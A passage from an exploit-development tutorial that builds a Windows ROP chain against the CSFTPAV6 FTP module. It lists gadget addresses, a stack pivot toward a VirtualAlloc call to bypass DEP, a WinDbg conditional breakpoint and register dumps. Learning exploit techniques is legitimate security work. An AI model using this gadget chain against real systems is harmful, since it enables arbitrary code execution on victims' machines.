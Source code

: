 We have to move EAX to EBX and then EBX to ESP as there are not direct gadgets. Therefore, we have to play a bit with the registers.

The gadget that moves EBP into ESP has a side effect of popping a value into EBP. We must compensate for this and configure the stack so that a dummy DWORD just before the VirtualAlloc address is popped into EBP.

The gadget chain to move ESP to our desired address is the following:
```c
# Put ESP to point to VirtualAlloc address in stack.  
# In order to set ESP, we need gadgets that operate with ESI, EAX, ECX, EBP and finally ESP.  
# There are not direct pop esp gadgets or similar.  
rop += pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn  
rop += pack("<L", (0x42424242)) # junk  
rop += pack("<L", (0x505115a3)) # pop ecx ; ret  
rop += pack("<L", (0xffffffe8)) # negative offset value  
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret  
rop += pack("<L", (0x5051571f)) # xchg eax, ebp ; ret  
rop += pack("<L", (0x50533cbf)) # mov esp, ebp ; pop ebp ; ret
```
Through trial and error, we find that we want to subtract 0x18 bytes from EAX to obtain the correct stack pointer alignment, which means we must add 0xffffffe8 bytes (same as substracting 0x18 bytes).
Note that we put ESP **before the VirtualAlloc address as we end doing a POP EBP gadget**.
**Note: In this case we reused a value that was in the stack so we pointed EBP 4 bytes higher and we made a pop instruction so ESP is decremented and EBP takes such value. We cant do the strategy of putting other value as the next in the gadget chain as we are doing a mov esp, which means that esp is not going to point anymore to our rop gadget! remember that moving ESP means that we lose control of our gadgets. So we have to do the offset-4**

Now, we can put a breakpoint on any of the latest gadgets we added. 
**Note: as the gadget has been used several times, and we know EAX value is 0x40 after patching flProtect, we can set a conditional breakpoint to stop on that gadget address if EAX is 0x40:**
```c
bp 0x5050118e ".if @eax = 0x40 {} .else {gc}"
```

We can see that we stop just after patching flProtect:
```c
0:079> g
eax=00000040 ebx=05e4b220 ecx=7f7f7fc0 edx=77182da0 esi=00fce304 edi=00000000
eip=5050118e esp=00fce40c ebp=51515151 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
CSFTPAV6+0x118e:
5050118e 8bc6            mov     eax,esi
```

Let's execute the ROP chain and see where ESP points to:
```c
0:004> p
eax=51515151 ebx=0668b1c8 ecx=ffffffe8 edx=77182da0 esi=42424242 edi=00000000
eip=50533cbf esp=026ce424 ebp=026ce2ec iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
CSFTPAV6!FtpUploadFileW+0x22e21:
50533cbf 8be5            mov     esp,ebp
0:004> p
eax=51515151 ebx=0668b1c8 ecx=ffffffe8 edx=77182da0 esi=42424242 edi=00000000
eip=50533cc1 esp=026ce2ec ebp=026ce2ec iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000203
CSFTPAV6!FtpUploadFileW+0x22e23:
50533cc1 5d              pop     ebp
0:004> dd esp
026ce2ec  41414141 76a65680 026ce504 026ce504
```
